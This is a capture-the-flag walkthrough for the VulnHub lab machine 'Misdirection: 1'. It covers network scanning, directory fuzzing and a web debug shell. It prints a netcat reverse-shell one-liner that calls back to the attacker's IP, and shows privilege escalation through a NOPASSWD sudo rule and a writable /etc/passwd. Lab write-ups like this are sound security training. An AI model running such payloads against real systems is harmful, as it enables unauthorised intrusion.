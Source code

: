 # MISDIRECTION: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.133	00:0c:29:b7:d5:da	VMware, Inc.
192.168.127.254	00:50:56:e7:2f:f3	VMware, Inc.
```

The IP address is `192.168.127.133`, let's scan it.

## 2.Enumeration

```bash
root@kali: nmap -p22,80,3306,8080 -sV -sC -v -oN nmap.out 192.168.127.133

Nmap scan report for 192.168.127.133
Host is up (0.00032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)
|_  256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-open-proxy: Proxy might be redirecting requests
MAC Address: 00:0C:29:B7:D5:DA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

i started checking port `80` and at this page there was nothing interesting, a login page and sign up whcih did not work for registring a user or

using SQLi :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f5fd7c46-edbf-40a6-a984-a401b26e8f7e)

i did fuzzing and found nothing good to work on.

then i turned my attention on port 8080 and started fuzzing it, i found `/wrodpress` on this port which was another misdirection and had nothing

no user, no vulnerable plugin or anything (just a rabbit hole)

```bash
root@kali: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.127.133:8080/FUZZ

images                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 6ms]
help                    [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 9ms]
scripts                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 2ms]
css                     [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 3ms]
wordpress               [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 2ms]
development             [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 5ms]
manual                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 2ms]
js                      [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 3ms]
shell                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 7ms]
debug                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 4ms]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 4ms]
server-status           [Status: 403, Size: 305, Words: 22, Lines: 12, Duration: 2ms]
```

i checked all the directories found by fuzzing untill i reached `/debug` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/63020c17-85d5-4451-a790-1ed081891850)

this is a virtual shell on web, which we can insert any command on it, why not  a reverse shell ?


## 3.Gaining Shell


So just use this payload and start a listener on your machine :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.127.128 4444 >/tmp/f
```

```bash
root@kali: nc -nvlp 4444

nc -nvlp 5555 
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.133] 58766
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

## 4.Privilege Escalation (brexit)

Check for sudo permissions :

```bash
$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```

and yes we can now escalate to `brexit`:

```bash
$ sudo -u brexit /bin/bash
id
uid=1000(brexit) gid=1000(brexit) groups=1000(brexit),24(cdrom),30(dip),46(plugdev),108(lxd)
```

## 5.Privilege Escalation (root)

Now we search for filed writable for `brexit` group :

```bash
find / -writable -group brexit -type f 2>/dev/null
.
.
.
/home/brexit/.gnupg/trustdb.gpg
/home/brexit/.gnupg/pubring.kbx
/home/brexit/.cache/motd.legal-displayed
/home/brexit/.cache/pip/selfcheck.json
/home/brexit/.cache/pip/http/3/a/f/3/a/3af3addf06e983a6c02f46e7bea70c221d3ff95bf1418fa6da354e14
/home/brexit/.cache/pip/http/d/9/f/5/0/d9f5007c5cc7fe7a953d81df1938d0a96573b4be7f6b4aea55ab2559
/home/brexit/.cache/pip/http/d/6/3/b/3/d63b3263a620e99b23b4f69598defad34ecb501ae5ca54e4dac695dd
/home/brexit/.cache/pip/http/0/8/4/f/5/084f5a8368fb89a7efa9c04f435e93864cabf099a23e186572afd976
/home/brexit/.cache/pip/http/0/4/1/8/c/0418c83b80f7f7bfaec2738bfbbee53d2c1562196c0781702f6eddc8
/home/brexit/.cache/pip/http/0/c/3/c/2/0c3c2ab80ac45d92b76521577b3c4b537bd92ce9e61cf051701e1b5e
/home/brexit/.cache/pip/http/9/f/2/9/2/9f292e59213099651b5fcfd03d5cd2be236234e87bcc0df5dbd85d73
/home/brexit/.cache/pip/http/4/d/2/7/2/4d272e6453941ce8b0a37a02cdb1685fc612c33441fa74691fb40656
/home/brexit/.cache/pip/http/5/2/2/2/0/522208f7faac55ab0e11ff112febf93d0d03cfe79067a75199dfd54d
/home/brexit/.cache/pip/http/5/0/f/d/c/50fdc589a6c4862d95953d91e6727214af0438991e623198dd5f178c
/home/brexit/.cache/pip/http/7/1/8/d/c/718dc0b3a9262afd90c31576e94cc7660a7a2809c30afe2937429e35
/home/brexit/.cache/pip/http/a/1/9/5/3/a19537d3cf37c122db841d6fe4cd322bc10d1a558bb00d146b85cb9a
/home/brexit/.cache/pip/http/a/3/7/b/8/a37b86be8276b0c9eabc32797fb2b8516f6f704f46b0354b02b72053
/home/brexit/.cache/pip/http/a/6/9/b/d/a69bdb984343de3b3653d7a852dbd14dd4ccdd03ced4b06d1352ba0b
/home/brexit/.cache/pip/http/a/6/5/4/2/a6542724bf8d60e8f3764dc45cacba88484798f4b12a65f6b4aa7227
/etc/passwd
```









